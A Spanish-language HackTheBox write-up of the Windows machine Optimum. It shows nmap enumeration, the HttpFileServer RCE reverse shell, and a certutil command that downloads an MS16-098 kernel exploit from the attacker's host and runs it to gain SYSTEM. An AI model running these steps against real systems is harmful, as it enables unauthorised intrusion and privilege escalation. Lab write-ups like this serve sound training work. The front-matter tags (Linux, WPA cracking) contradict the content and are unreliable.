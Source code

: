 ```yaml
---
title: HackTheBox - Optimum
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'HttpFileServer RCE (CVE-2014-6287)', 'Cracking WPA/WPA2 Password']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Optimum/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Optimum Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **HttpFileServer RCE (CVE-2014-6287), Cracking WPA/WPA2 Password**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Optimum/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Optimum/02-versions.png)

    * Al buscar por alguna vulnerabilidad en **HttpFileServer 2.3** llegamos a un [RCE](https://www.exploit-db.com/exploits/39161)

c. Para ejecutar este script, cambiamos las variables 'ip_addr' y 'local_port', además de levantar un servidor http con python en el puerto 80 ofreciendo **nc.exe**

![](/assets/images/HTB/Easy/Optimum/03-rce.png)

> Ejecutamos el script varias veces hasta recibir la **reverse shell**
{: .prompt-tip }

### Escalada de Privilegios 💹

a. Para la escalada de privilegios usaremos [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

* Copiamos el output del comando `systeminfo` en un fichero.
* La base de datos a usar la podemos descargar de [win-exp-suggester](https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester)
* En caso de tener un algún error con el script instalamos `pip install xlrd==1.2.0`


```bash
❯ python2 windows_exploit_suggester.py -i info.txt -d 2017-06-14-mssb.xls

<SNIP>
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                                                           
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<SNIP>
```

b. Descargamos el fichero [41020.exe](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) y lo transferimos a la máquina víctima

```bash
❯ python -m http.server 80
--------------------------------------------------------------------------------------------------------
C:\Users\kostas\Documents>certutil.exe -f -urlcache -split "http://10.10.14.18/41020.exe" ".\41020.exe"
```

* Por último, ejecutamos el script y seremos **nt authority\system**

    ```cmd
    C:\Users\kostas\Documents>.\41020.exe                                    
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Users\kostas\Documents>whoami
    nt authority\system
    ```
